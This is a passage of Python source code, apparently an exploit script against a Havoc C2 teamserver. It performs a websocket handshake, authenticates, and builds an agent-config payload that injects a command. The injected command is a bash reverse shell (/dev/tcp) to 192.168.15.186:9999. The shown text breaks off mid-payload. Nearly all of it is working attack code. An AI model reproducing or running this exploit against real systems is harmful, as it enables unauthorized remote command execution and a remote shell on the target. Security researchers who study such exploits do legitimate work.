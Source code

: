 ```python
    data = frame[index:index+length]
    return data.decode() if is_text else data  # return str or bytes

# ========== Connect and Handshake ==========
sock = socket.create_connection((HOST, PORT))
handshake = (
    "GET /havoc/ HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    "Upgrade: websocket\r\n"
    "Connection: Upgrade\r\n"
    "Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==\r\n"
    "Sec-WebSocket-Version: 13\r\n"
    "\r\n"
)
sock.sendall(handshake.encode())

# Wait for handshake response
resp = sock.recv(4096)
if b"101 Switching Protocols" not in resp:
    print("[!] WebSocket handshake failed")
    exit(1)
print("[+] WebSocket handshake completed")

# ========== Authenticate ==========
auth_payload = {
    "Body": {
        "Info": {
            "Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(),
            "User": USER
        },
        "SubEvent": 3
    },
    "Head": {
        "Event": 1,
        "OneTime": "",
        "Time": "18:40:17",
        "User": USER
    }
}
sock.sendall(build_websocket_frame(json.dumps(auth_payload)))
resp = parse_websocket_frame(sock.recv(4096))
print("[+] Auth Response:", resp)

# ========== Trigger RCE with `whoami` ==========
cmd = "bash -c 'bash -i >& /dev/tcp/192.168.15.186/9999 0>&1'"
injection = r""" \\\\\\\" -mbla; """ + cmd + r""" 1>&2 && false #"""

rce_payload = {
    "Body": {
        "Info": {
            "AgentType": "Demon",
            "Arch": "x64",
            "Config": (
                "{\n"
                "    \"Amsi/Etw Patch\": \"None\",\n"
                "    \"Indirect Syscall\": false,\n"
                "    \"Injection\": {\n"
                "        \"Alloc\": \"Native/Syscall\",\n"
                "        \"Execute\": \"Native/Syscall\",\n"
                "        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n"
                "        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n"
                "    },\n"
                "    \"Jitter\": \"0\",\n"
```